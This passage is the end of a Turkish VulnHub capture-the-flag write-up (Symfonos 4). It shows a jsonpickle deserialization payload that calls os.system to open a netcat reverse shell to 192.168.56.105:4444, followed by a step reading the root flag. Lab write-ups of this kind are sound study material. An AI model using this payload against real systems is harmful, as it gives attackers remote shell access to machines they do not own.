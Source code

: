 ```json
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"},
 {"py/tuple": ["nc -e /bin/bash 192.168.56.105 4444"]}, null, null, null]}
```
<br>
{{< image src="/images/vulnhub/symfonos4/root.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Root dizini altında yer alan proof.txt dosyası okunarak işlem tamamlanır.

{{< image src="/images/vulnhub/symfonos4/flag.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

*Umarım faydalı olmuştur. Başka bir çözümde görüşmek üzere Allah’a emanet olun…*

